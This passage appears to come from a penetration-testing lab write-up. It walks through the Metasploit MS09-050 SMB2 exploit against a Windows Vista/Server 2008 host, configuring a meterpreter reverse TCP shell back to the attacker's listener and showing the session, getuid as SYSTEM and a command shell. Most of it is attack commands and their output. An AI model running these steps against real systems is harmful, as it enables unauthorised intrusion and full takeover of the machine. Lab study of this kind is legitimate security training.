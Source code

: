 The final entry listed is an exploit for this vulnerability. To obtain a reverse shell, we simply have to enter in the IP address of our target and run the exploit, resulting in a SYSTEM level shell:

```
msf5 > use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms09_050_smb2_negotiate_func_index) > set RHOSTS 192.168.103.40
RHOSTS => 192.168.103.40
msf5 exploit(windows/smb/ms09_050_smb2_negotiate_func_index) > set LHOST 192.168.49.103
LHOST => 192.168.49.103
msf5 exploit(windows/smb/ms09_050_smb2_negotiate_func_index) > show options

Module options (exploit/windows/smb/ms09_050_smb2_negotiate_func_index):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.103.40   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   445              yes       The target port (TCP)
   WAIT    180              yes       The number of seconds to wait for the attack to complete.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.49.103   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Vista SP1/SP2 and Server 2008 (x86)

msf5 exploit(windows/smb/ms09_050_smb2_negotiate_func_index) > run

[*] Started reverse TCP handler on 192.168.49.103:4444 
[*] 192.168.103.40:445 - Connecting to the target (192.168.103.40:445)...
[*] 192.168.103.40:445 - Sending the exploit packet (938 bytes)...
[*] 192.168.103.40:445 - Waiting up to 180 seconds for exploit to trigger...
[*] Sending stage (176195 bytes) to 192.168.103.40
[*] Meterpreter session 1 opened (192.168.49.103:4444 -> 192.168.103.40:49159) at 2020-12-16 22:12:54 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 3484 created.
Channel 1 created.
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>hostname
hostname
internal

C:\Windows\system32>

```